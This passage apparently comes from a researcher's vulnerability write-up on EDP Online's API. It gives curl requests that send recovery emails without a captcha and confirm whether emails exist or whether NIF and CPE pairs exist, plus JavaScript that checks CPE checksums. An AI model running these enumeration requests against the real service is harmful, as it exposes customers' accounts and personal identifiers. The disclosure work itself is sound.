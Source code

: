 However, there's another endpoint that looks like this:

``` shell
curl -X POST \
  https://edponline.edp.pt/api/v2/auth/register \
  -d '{
        "category": "auth",
        "operation": "register",
        "Body": {
          "Operation": "SendRecoveryEmail",
          "Nif": "VALID_NIF",
          "Email": "VALID_EMAIL",
        }
      }'
```

This one didn't require a captcha, and again only one of `VALID_NIF`, `VALID_EMAIL` was needed, meaning that it was a brute-forceable equivalent to the password reset endpoint.

It could also be used to check whether the email existed on their database, something not possible with the login form. The response also contained the `userId`.


### NIF + CPE Pair Enumeration

It was also possible to check whether a `NIF` + `CPE` pair existed with:

``` shell
curl -X POST \
  https://edponline.edp.pt/api/v2/auth/register \
  -d '{
        "category": "auth",
        "operation": "register",
        "Body": {
          "Operation": "GetUserValidation",
          "Target": "B2B",
          "Nif": "VALID_NIF",
          "DeliveryPoint":"VALID_CPE"
        }
      }'
```

After some digging, I found the `CPE` format: `PT0002` + `12 digits` + `2 letters`, with the last 2 letters being the integrity check. To generate one we can use:

``` javascript
function checkCPE(cpe) {
  var cMap = {
    0:'T',1:'R',2:'W',3:'A',4:'G',5:'M',6:'Y',7:'F',8:'P',9:'D',10:'X',11:'B',
    12:'N',13:'J',14:'Z',15:'S',16:'Q',17:'V',18:'H',19:'L',20:'C',21:'K',22:'E'
  };
  var cRegex = /[A-Z]{2}/;
  if (
    cpe && cpe.length == 20 && cpe.substring(0, 2) == 'PT' &&
    !isNaN(cpe.substring(2, 18)) && cRegex.test(cpe.substring(18))
  ) {
      var i = parseInt(cpe.substring(2, 18), 10) % 529;
      var j = Math.floor(parseFloat(i) / 23);
      var k = i % 23;
      if (k < 23 && j < 23) {
        return cpe[18] == cMap[parseInt(j, 10)] &&
               cpe[19] == cMap[parseInt(k, 10)];
      }
  }
  return false;
}
```
